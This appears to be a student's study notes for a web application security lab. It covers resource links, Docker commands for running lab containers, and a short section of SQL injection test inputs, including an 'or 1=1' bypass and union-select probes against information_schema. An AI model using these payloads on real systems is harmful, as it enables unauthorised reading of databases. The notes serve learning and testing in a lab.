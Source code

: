 
Resource ( #Resources #Important ):
- https://appsecexplained.gitbook.io/appsecexplained
- https://github.com/swisskyrepo/PayloadsAllTheThings (Has payloads and bypasses for Web Application Security) / https://swisskyrepo.github.io/PayloadsAllTheThings/
- https://swisskyrepo.github.io/InternalAllTheThings/
- https://www.thehacker.recipes/web/inputs/null-byte-injection
#### Docker installation and usage commands:

- To install docker we need docker.io and docker-compose.
	- `sudo apt install docker.io`
	- `sudo apt install docker-compose`
- To check the version installed
	- `docker --version`
	- `docker-compose --version`
- Once we have a docker-compose.yml file for a lab, navigate to the path were we have the docker-compose.yml file and try the below command:
	- `sudo docker-compose up`
		- This will download the required files for the first time and spin up the containers
	- `sudo docker-compose up -d`
		- This can be used to bring the containers up and run in background
	- `sudo docker-compose stop`
		- This command can be used to stop the containers
- To check the list of containers running, we can use the below command:
	- `sudo docker ps -a`
- To remove the container, we can use the below command
	- `sudo docker rm {container_id`
	- `sudo docker rm $(sudo docker ps -aq)`
		- This will remove all the container without the container id
	

#### SQL Injection:

Useful commands to check if SQL injection is possible:

Inside user search:
- Try ", ' and a username with quote at the start and end to see if this breaks the application, and outputs a stack trace error, from mysql
- `jeremy' or 1=1#`
	- (#) is for terminator or we can also use (-- -) as a terminator for the mysql
	- This will grab all the data in the table
- `jeremy' union select null#`
	- Using union and null, we can find how many columns are selected in the select statement, if you dont see the result with 1 null, try 2 or 3 and see when we will get the results.
- `jeremy' union select null,null,null#`
	- Union will only output, if only the number of columns matches with the first select query, we can use this to grab tables information  in the database.
- `jeremy' union select null, null,table_name from information_schema.tables#`


Useful resource ( #Resources ):

https://portswigger.net/web-security/sql-injection/cheat-sheet

##### SQL Map ( #Tools ):
